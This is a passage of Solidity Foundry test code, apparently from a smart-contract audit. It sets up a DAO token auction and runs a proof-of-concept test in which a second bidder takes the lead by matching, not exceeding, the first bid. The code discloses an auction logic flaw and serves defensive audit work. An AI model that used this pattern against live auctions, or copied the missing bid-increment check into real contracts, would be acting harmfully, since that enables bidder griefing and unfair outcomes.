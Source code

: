 ```solidity
        items[0] = MetadataRendererTypesV1.ItemParam({ propertyId: 0, name: "failure1", isNewProperty: true });
        items[1] = MetadataRendererTypesV1.ItemParam({ propertyId: 0, name: "failure2", isNewProperty: true });

        MetadataRendererTypesV1.IPFSGroup memory ipfsGroup = MetadataRendererTypesV1.IPFSGroup({ baseUri: "BASE_URI", extension: "EXTENSION" });

        vm.prank(metadataRenderer.owner());
        metadataRenderer.addProperties(names, items, ipfsGroup);
    }

    function deploy() internal virtual {
        (address _token, address _metadata, address _auction, address _treasury, address _governor) = manager.deploy(
            foundersArr,
            tokenParams,
            auctionParams,
            govParams
        );

        token = Token(_token);
        metadataRenderer = MetadataRenderer(_metadata);
        auction = Auction(_auction);
        treasury = Treasury(payable(_treasury));
        governor = Governor(_governor);
    }

    function test_poc() public {
        vm.prank(founder);
        auction.unpause();

        // Get Auction details
        (uint256 tokenId, uint256 highestBid, address highestBidder, uint256 startTime, uint256 endTime, bool settled) = auction.auction();
        assertEq(tokenId, 2);
        assertEq(highestBid, 0);
        assertEq(highestBidder, address(0));
        assertEq(startTime, 1);
        assertEq(endTime, 1 + auctionParams.duration);
        assertEq(settled, false);

        // Alice bids for token 2 with a bid amount of 1
        vm.prank(aliceTheBidder);
        auction.createBid{ value: 1 }(2);

        (, uint256 highestBid1, address highestBidder1, , , ) = auction.auction();
        assertEq(highestBid1, 1);
        assertEq(highestBidder1, aliceTheBidder);

        // Chuck bids for token 2 with the same bid amount of 1,
        // and takes over Alice to become the top bidder
        vm.prank(chuckTheBidder);
        auction.createBid{ value: 1 }(2);

        (, uint256 highestBid2, address highestBidder2, , , ) = auction.auction();
        assertEq(highestBid2, 1);
        assertEq(highestBidder2, chuckTheBidder);
    }
}
```
